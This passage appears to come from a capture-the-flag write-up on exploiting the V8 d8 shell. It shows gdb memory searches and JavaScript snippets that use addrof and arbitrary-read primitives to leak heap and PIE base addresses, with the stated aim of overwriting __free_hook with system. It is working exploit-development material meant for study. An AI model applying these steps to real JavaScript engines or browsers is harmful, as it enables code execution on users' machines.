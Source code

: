 ### Achieve Control-flow Hijacking: Overwrite __free_hook to system

After creating the primitives, we now need to leak the glibc base address, where `__free_hook` and `system` symbol has a fixed offset to. Currently, all the JS runtime objects will be allocated on the page allocated by V8's memory allocator (V8's heap) which is apart from the heap allocated by `ptmalloc`. Therefore, we need to leak the address of other pages (e.g. text segement, heap or glibc) on the V8's heap. 

#### Leak heap space
```
(gdb) search-pattern 0x000055d8 little 0x0000101634300000-0x0000101634340000
[+] Searching '\xd8\x55\x00\x00' in 0x0000101634300000-0x0000101634340000
[+] In (0x101634300000-0x101634340000), permission=rw-
  0x101634300014 - 0x101634300024  →   "\xd8\x55\x00\x00[...]" 
  0x10163430001c - 0x10163430002c  →   "\xd8\x55\x00\x00[...]" 
```

```
// buf_addr = 0x10163430ddd0
// v8_heap_base_addr = buf_addr & 0xffffffff0000n
let buf_addr = addrof(buf);
let v8_heap_base_addr = buf_addr & 0xffffffff0000n
let heap_ptr_addr = v8_heap_base_addr + 0x10n;

let heap_ptr = arb_read(heap_ptr_addr);
let heap_base = heap_ptr
console.log("[+] Leak a Heap pointer: 0x" + heap_ptr.toString(16));

// OUTPUT
root@48d3ec3e0728:/build/v8/v8# ./out.gn/x64.release/d8 --allow-natives-syntax /solve/solve.js
[+] Leak a Heap pointer: 0x555809da46d0
[+] Heap base address: 0x555809d2c000
```

#### Leak text segment

Similarly, we search the heap space and see whether there is a pointer that points to glibc or text segment.

```
(gdb) search-pattern 0x0000558485 little 0x0000558487367000-0x0000558487415000
[+] Searching '\x85\x84\x55\x00\x00' in 0x0000558487367000-0x0000558487415000
[+] In '[heap]'(0x558487367000-0x558487415000), permission=rw-
  0x55848736966b - 0x55848736967f  →   "\x85\x84\x55\x00\x00[...]" 
(gdb) x/32xw 0x558487369668
0x558487369668:	0x85c259b5	0x00005584	0x0000001d	0x00000000
0x558487369678:	0x87369a80	0x00005584	0x00000000	0x65757274
```

```
let text_seg_ptr= arb_read(heap_base_addr + 0x2668n);
let pie_base_addr = text_seg_ptr - 0xBE9B5n;
console.log("[+] Leak a PIE pointer: 0x" + pie_base_addr.toString(16));
```
